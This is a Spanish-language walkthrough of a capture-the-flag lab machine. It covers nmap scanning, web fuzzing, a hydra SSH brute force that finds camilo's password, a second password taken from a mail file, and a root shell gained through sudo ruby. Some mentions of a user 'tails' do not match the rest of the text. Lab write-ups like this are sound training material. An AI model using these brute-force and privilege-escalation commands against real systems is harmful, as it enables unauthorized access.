<p align="center">
    
</p>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```

<p align="center">
    
</p>

---

## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>

**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 22/tcp | open   | ssh      |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


| Puerto | Estado | Servicio | Versión                         |
| ------ | ------ | -------- | ------------------------------- |
| 22/tcp | open   | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 |
| 80/tcp | open   | http     | Apache httpd 2.4.29 ((Ubuntu))  |

---


<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
![[Pasted image 20250101202548.png]]


No vemos nada, pero si inspeccionamos el código.
```
CTRL + U
```
<p align="center">
    
</p>


Tenemos dos posibles usuarios `Juan` y `Camilo`. Pero antes de realizar fuerza bruta para el protocolo `SSH`,  realizamos `fuzzing web` para intentar enumerar fichero y directorios que estén alojados en el servidor web.


#### Fuzzing Web

Primero vamos a usar la herramienta `dirb`, que realiza un escaneo rápido.
```
dirb http://172.17.0.2
```

<p align="center">
    
</p>


No encuentra mucho, así que realizamos un segundo escaneo con la herramienta `gobuster`.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,asp,aspx
```

<p align="center">
    
</p>

Tampoco nos encuentra mucho. Así que realizaremos un ataque de fuerza bruta para comprobar que `tails` es un usuario y poder ver si conseguimos su contraseña.

---

## Explotación


Teniendo a dos posibles usuarios creamos un diccionario. Creamos un fichero llamado `user.txt` y ponemos los dos nombre de usuarios en el fichero.
```
nano users.txt
```

![[Pasted image 20250101204816.png]]
<p align="center">
    
</p>

#### Hydra
Teniendo el diccionario de usuarios personalizado, realiza un ataque de fuerza bruta. 
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```

<p align="center">
    
</p>


Encontramos la contraseña para el usuario `camilo`. Por lo que iniciamos sesión en el protocolo `SSH`.
```
ssh camilo@172.17.0.2     # después ponemos la contraseña password1
```

<p align="center">
    
</p>

Iniciamos sesión en el servicio `SSH` con el usuario `camilo`. Como tenemos un *prompt* algo incómodo, nos lanzamos una `/bin/bash`.
```
/bin/bash -i
```

<p align="center">
    
</p>

Ahora si podemos utilizar mejor los comandos. Así que enumerando un poco el sistema leo el fichero `/passwd` para ver que usaurios hay en le sistema
```
cat /etc/passwd 
```

<p align="center">
    
</p>

Vemos que existen varios usuarios, `camilo`, `juan`, `pedro` y `root`. Como en la aplicación web, vimos que `Juan`, le había mandado un correo a `Camilo`, y siendo el usuario `camilo`, podemos ver dicho correo. Vamos al directorio de los correos y listamos el contenido del directorio.
```
cd /var/mail
ls -la
```

<p align="center">
    
</p>


Tenemos un directorio llamado `camilo`. Entramos y listamos el contenido.
```
cd camilo
ls -la
```

<p align="center">
    
</p>

Tenemos un fichero llamado `correo.txt`, que será el que hace referencia al mensaje que encontramos en la aplicación web. Leemos el contenido.
```
cat correo.txt
```

<p align="center">
    
</p>


Y averiguamos que el correo presenta la credenciales `2k84dicb`, que será de `Juan`, según el comentario de la página web. Entramos al usuario `Juan` con esas credenciales.
```
su juan # después podemos la contraseña 2k84dicb
```

<p align="center">
    
</p>

Como de nuevo, tenemos un *prompt* algo incómodo, nos lanzamos una `/bin/bash`.
```
/bin/bash -i
```

<p align="center">
    
</p>


Ahora si podemos utilizar mejor los comandos. Enumerando el sistema no encontramos nada. Así que intento escalar privilegios.

---

## Escalada de privilegios

Comprobamos que binarios puede ejecutar el usuario `tails`.
```
sudo -l
```

<p align="center">
    
</p>

Vemos que podemos ejecutar el binario `ruby`, sin proporcionar contraseña con cualquier usuarios. Si voy a la web de [GTFObins][https://gtfobins.github.io/] y busco por el binario `ruby` y selecciono que lo encontré realizando un `sudo`, me indica que:
<p align="center">
    
</p>


Ejecutando el comando indicado podemos lanzarnos una `bash`. Entonces ejecutamos el comando:
```
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

<p align="center">
    
</p>

Somos el usuarios `root`.


